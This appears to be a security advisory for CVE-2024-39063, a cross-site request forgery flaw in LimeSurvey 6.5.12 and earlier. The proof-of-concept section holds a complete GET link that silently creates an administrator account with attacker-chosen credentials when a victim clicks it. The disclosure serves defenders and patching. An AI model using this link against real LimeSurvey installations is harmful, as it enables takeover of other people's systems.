 <b><h2>Description</b></h2>


LimeSurvey <= 6.5.12 is vulnerable to Cross Site Request Forgery (CSRF). The YII_CSRF_TOKEN is only checked when passed in the body of POST requests, but the same check isn't performed in the equivalent GET requests. 

<b><h2>PoC</b></h2>


To exploit this vulnerability an attacker could send the following link to the victim: 

http://example.com/index.php?r=userManagement/applyedit&YII_CSRF_TOKEN=&User%5Buid%5D=&User%5Busers_name%5D=ATTACKER_USERNAME&User%5Bfull_name%5D=ATTACKER_NAME&User%5Bemail%5D=ATTACKER_EMAIL&expires=EXPIRATION_DATE&preset_password=1&User%5Bpassword%5D=ATTACKER_PASSWORD&password_repeat=ATTACKER_PASSWORD&random_example_password=vDfSU49xlEeG&YII_CSRF_TOKEN=

When the victim clicks the link, a new administrative account is created with the attacker's password:

1. CSRF Token checked in the POST request

![image](https://github.com/sysentr0py/CVEs/assets/71945854/40f39095-dbc8-4413-af0c-ffd2a36b772a)

2. CSRF Token isn't checked in the GET request

![image](https://github.com/sysentr0py/CVEs/assets/71945854/990d505e-3009-4d30-8a00-951a09b3bc56)

3. CSRF PoC with Burp Suite

![image](https://github.com/sysentr0py/CVEs/assets/71945854/dd95012b-3788-4d7c-a2a5-211200ab0df8)


4. CSRF PoC2 with Burp Suite

![image](https://github.com/sysentr0py/CVEs/assets/71945854/c1a4706e-a480-460e-8553-8baa11a23549)

<b><h2>References</b></h2>
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-39063
- https://github.com/LimeSurvey/LimeSurvey/pull/3877

